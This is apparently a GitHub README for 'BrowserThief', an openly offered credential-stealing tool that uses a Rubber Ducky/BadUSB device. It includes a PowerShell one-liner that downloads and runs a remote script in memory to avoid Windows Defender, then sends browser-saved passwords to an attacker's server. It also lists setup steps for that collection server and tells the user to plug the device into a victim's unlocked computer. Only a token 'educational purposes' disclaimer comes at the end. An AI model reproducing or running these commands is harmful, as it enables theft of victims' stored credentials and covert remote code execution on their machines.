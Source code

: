 # BrowserThief
Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. 

## Features
- The powershell script can be run in-memory without writing to disk which evades Windows Defender detection
- Includes an arduino RubberDucky script that runs in less than 2 seconds

## Instructions

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```


-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Instructions](https://github.com/ScribblerCoder/BrowserThief#Instructions) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰

## PoC





## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project